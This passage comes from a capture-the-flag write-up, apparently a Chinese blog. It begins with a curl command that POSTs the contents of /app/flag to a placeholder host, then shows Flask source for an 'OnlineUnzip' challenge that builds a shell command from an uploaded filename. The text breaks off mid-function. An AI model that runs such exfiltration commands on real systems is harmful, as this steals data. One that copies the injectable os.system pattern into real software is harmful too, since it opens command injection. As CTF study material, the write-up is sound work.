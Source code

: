 flag 位置在 /app/flag

```bash
curl x.x.x.x:yyyy/ -X POST -d "`cat /app/flag`
```

## OnlineUnzip

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171933285.png)

```python
import os
import re
from hashlib import md5
from flask import Flask, redirect, request, render_template, url_for, make_response

app=Flask(__name__)

def extractFile(filepath):
    extractdir=filepath.split('.')[0]
    if not os.path.exists(extractdir):
        os.makedirs(extractdir)
    os.system(f'unzip -o {filepath} -d {extractdir}')
    return redirect(url_for('display',extractdir=extractdir))

@app.route('/', methods=['GET'])
def index():
    return render_template('index.html')

@app.route('/display', methods=['GET'])
@app.route('/display/', methods=['GET'])
@app.route('/display/<path:extractdir>', methods=['GET'])
def display(extractdir=''):
    if re.search(r"\.\.", extractdir, re.M | re.I) != None:
        return "Hacker?"
    else:
        if not os.path.exists(extractdir):
            return make_response("error", 404)
        else:
            if not os.path.isdir(extractdir):
                f = open(extractdir, 'rb')
                response = make_response(f.read())
                response.headers['Content-Type'] = 'application/octet-stream'
                return response
            else:
                fn = os.listdir(extractdir)
                fn = [".."] + fn
                f = open("templates/template.html")
                x = f.read()
                f.close()
                ret = "<h1>文件列表:</h1><br><hr>"
                for i in fn:
                    tpath = os.path.join('/display', extractdir, i)
                    ret += "<a href='" + tpath + "'>" + i + "</a><br>"
                x = x.replace("HTMLTEXT", ret)
                return x


@app.route('/upload', methods=['GET', 'POST'])
def upload():
    ip = request.remote_addr
    uploadpath = 'uploads/' + md5(ip.encode()).hexdigest()[0:4]

    if not os.path.exists(uploadpath):
```